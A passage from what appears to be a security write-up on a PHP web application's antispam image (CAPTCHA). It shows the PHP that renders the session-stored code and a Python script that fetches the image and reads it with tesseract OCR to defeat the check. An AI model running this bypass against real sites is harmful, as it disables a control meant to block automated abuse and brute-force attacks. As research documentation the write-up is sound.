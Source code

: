 ```php
if (empty($img))
{
    dol_print_error('', "Problem with GD creation");
    exit;
}

// Define mime type
top_httphead('image/png', 1);

$background_color = imagecolorallocate($img, 250, 250, 250);
$ecriture_color = imagecolorallocate($img, 0, 0, 0);
imagestring($img, 4, 24, 8, $string, $ecriture_color);
imagepng($img);

...

```

As we can see the `$_SESSION[$sessionkey]` variable corresponds to a code in the form of an image.

![alt text](../captures/c19_2.png "Figure 3: Antispam")


#### Defeating antispam feature using OCR


- The antispam code is being stored in our session as `$_SESSION[$sessionkey]`.
- We can change it as many times as we want by making a request to <span style="color:red">\<ROOT\>/core/antispamimage.php</span>.


So we're going to defeat the security by using OCR with [tesseract](https://github.com/tesseract-ocr/tesseract).

Example:
```python
from PIL import Image
import pytesseract
import requests
import random
from io import BytesIO

DEBUG = 1
SESSION = requests.session()
ANTISPAM_PATH = "core/antispamimage.php"


def get_antispam_code(base_url):
    code = ""
    while len(code) != 5:
        r = SESSION.get(f"{base_url}{ANTISPAM_PATH}")
        temp_image = f"/tmp/{random.randint(0000,9999)}"
        with open(temp_image, "wb") as f:
            f.write(r.content)
        with open(temp_image, "rb") as f:
            code = pytesseract.image_to_string(
                Image.open(BytesIO(f.read()))).split("\n")[0]
        for char in code:
            if char not in "aAbBCDeEFgGhHJKLmMnNpPqQRsStTuVwWXYZz2345679":
                code = ""
                break
    if DEBUG:
        print(f"[*] Antispam code ({code}) stored at: {temp_image}")
    return code
```